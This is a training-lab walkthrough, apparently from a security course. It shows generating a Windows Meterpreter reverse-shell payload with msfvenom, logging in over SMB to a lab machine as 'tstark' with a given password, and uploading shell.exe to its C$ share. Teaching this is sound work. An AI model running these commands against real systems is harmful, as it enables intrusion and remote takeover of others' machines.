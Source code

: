 Let's generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 

- [Class Do Activity File: Custom Payload with Msfvenom](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory, then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type `smbclient //172.22.117.20/C$ -U megacorpone/tstark`.

    - This connects to the `C` drive on the remote machine as the user `tstark`. 

3. You will then be asked for a password. Input `tstark`'s password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`
